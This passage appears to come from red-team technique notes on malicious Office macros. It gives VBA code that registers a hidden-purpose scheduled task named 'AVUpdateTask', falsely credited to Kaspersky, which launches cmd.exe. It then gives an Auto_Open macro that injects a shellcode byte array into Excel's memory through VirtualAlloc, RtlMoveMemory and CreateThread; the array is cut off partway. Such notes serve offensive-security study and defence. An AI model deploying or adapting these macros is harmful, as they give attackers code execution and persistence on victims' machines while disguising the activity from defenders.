 {% endcode-tabs %}

![](../../../.gitbook/assets/screenshot-from-2019-04-10-23-04-07.png)

## Spawning via svchost.exe using Scheduled Task

{% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Kaspersky Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\cmd.exe"
'Action.Arguments = "/c whoami"
Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/screenshot-from-2019-04-10-22-19-03.png)

## Shellcode Injection to Excel.exe Memory Using Windows APIs

```csharp
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
```